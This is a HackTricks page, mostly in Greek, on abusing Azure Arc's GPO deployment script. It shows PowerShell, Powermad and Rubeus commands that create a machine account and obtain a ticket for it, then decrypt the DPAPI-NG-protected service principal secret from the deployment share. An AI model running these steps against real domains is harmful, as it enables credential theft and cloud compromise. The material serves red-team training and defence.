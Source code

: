 # Az - Arc vulnerable GPO Deploy Script

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Identifying the Issues

Το Azure Arc επιτρέπει την ενσωμάτωση νέων εσωτερικών διακομιστών (διακομιστές που έχουν ενταχθεί σε τομέα) στο Azure Arc χρησιμοποιώντας τη μέθοδο Group Policy Object. Για να διευκολυνθεί αυτό, η Microsoft παρέχει ένα εργαλείο ανάπτυξης που είναι απαραίτητο για την έναρξη της διαδικασίας ενσωμάτωσης. Μέσα στο αρχείο ArcEnableServerGroupPolicy.zip, μπορούν να βρεθούν τα εξής σενάρια: DeployGPO.ps1, EnableAzureArc.ps1 και AzureArcDeployment.psm1.

Όταν εκτελείται, το σενάριο DeployGPO.ps1 εκτελεί τις εξής ενέργειες:

1. Δημιουργεί το GPO Onboarding Διακομιστών Azure Arc μέσα στον τοπικό τομέα.
2. Αντιγράφει το σενάριο ενσωμάτωσης EnableAzureArc.ps1 στο καθορισμένο κοινόχρηστο δίκτυο που έχει δημιουργηθεί για τη διαδικασία ενσωμάτωσης, το οποίο περιέχει επίσης το πακέτο εγκατάστασης των Windows.

Κατά την εκτέλεση αυτού του σεναρίου, οι διαχειριστές συστημάτων πρέπει να παρέχουν δύο κύριες παραμέτρους: **ServicePrincipalId** και **ServicePrincipalClientSecret**. Επιπλέον, απαιτούνται άλλες παράμετροι όπως ο τομέας, το FQDN του διακομιστή που φιλοξενεί το κοινόχρηστο, και το όνομα του κοινόχρηστου. Περαιτέρω λεπτομέρειες όπως το tenant ID, η ομάδα πόρων και άλλες απαραίτητες πληροφορίες πρέπει επίσης να παρέχονται στο σενάριο.

Ένα κρυπτογραφημένο μυστικό δημιουργείται στον κατάλογο AzureArcDeploy στο καθορισμένο κοινόχρηστο χρησιμοποιώντας κρυπτογράφηση DPAPI-NG. Το κρυπτογραφημένο μυστικό αποθηκεύεται σε ένα αρχείο με όνομα encryptedServicePrincipalSecret. Απόδειξη αυτού μπορεί να βρεθεί στο σενάριο DeployGPO.ps1, όπου η κρυπτογράφηση εκτελείται καλώντας το ProtectBase64 με $descriptor και $ServicePrincipalSecret ως είσοδοι. Ο περιγραφέας αποτελείται από τα SIDs της ομάδας Domain Computer και Domain Controller, διασφαλίζοντας ότι το ServicePrincipalSecret μπορεί να αποκρυπτογραφηθεί μόνο από τις ομάδες ασφαλείας Domain Controllers και Domain Computers, όπως σημειώνεται στα σχόλια του σεναρίου.
```powershell
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```
### Εκμετάλλευση

Έχουμε τις εξής συνθήκες:

1. Έχουμε διεισδύσει με επιτυχία στο εσωτερικό δίκτυο.
2. Έχουμε τη δυνατότητα να δημιουργήσουμε ή να αναλάβουμε τον έλεγχο ενός λογαριασμού υπολογιστή εντός του Active Directory.
3. Έχουμε ανακαλύψει μια κοινή χρήση δικτύου που περιέχει τον φάκελο AzureArcDeploy.

Υπάρχουν αρκετές μέθοδοι για να αποκτήσουμε έναν λογαριασμό μηχανής σε ένα περιβάλλον AD. Μία από τις πιο κοινές είναι η εκμετάλλευση του ποσοστού λογαριασμών μηχανών. Μια άλλη μέθοδος περιλαμβάνει την παραβίαση ενός λογαριασμού μηχανής μέσω ευάλωτων ACL ή διάφορων άλλων κακών ρυθμίσεων.
```powershell
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
Μόλις αποκτηθεί ένας λογαριασμός μηχανής, είναι δυνατή η αυθεντικοποίηση χρησιμοποιώντας αυτόν τον λογαριασμό. Μπορούμε είτε να χρησιμοποιήσουμε την εντολή runas.exe με την επιλογή netonly είτε να χρησιμοποιήσουμε pass-the-ticket με το Rubeus.exe.
```powershell
runas /user:fake01$ /netonly powershell
```

```powershell
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```
Με την αποθήκευση του TGT για τον λογαριασμό του υπολογιστή μας στη μνήμη, μπορούμε να χρησιμοποιήσουμε το παρακάτω σενάριο για να αποκρυπτογραφήσουμε το μυστικό του service principal.
```powershell
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```
Εναλλακτικά, μπορούμε να χρησιμοποιήσουμε [SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG).

Σε αυτό το σημείο, μπορούμε να συγκεντρώσουμε τις υπόλοιπες πληροφορίες που χρειάζονται για να συνδεθούμε στο Azure από το αρχείο ArcInfo.json, το οποίο αποθηκεύεται στο ίδιο κοινόχρηστο δίκτυο με το αρχείο encryptedServicePrincipalSecret. Αυτό το αρχείο περιέχει λεπτομέρειες όπως: TenantId, servicePrincipalClientId, ResourceGroup και άλλα. Με αυτές τις πληροφορίες, μπορούμε να χρησιμοποιήσουμε το Azure CLI για να αυθεντικοποιηθούμε ως ο παραβιασμένος service principal.

## Αναφορές

* [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Arc/)

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
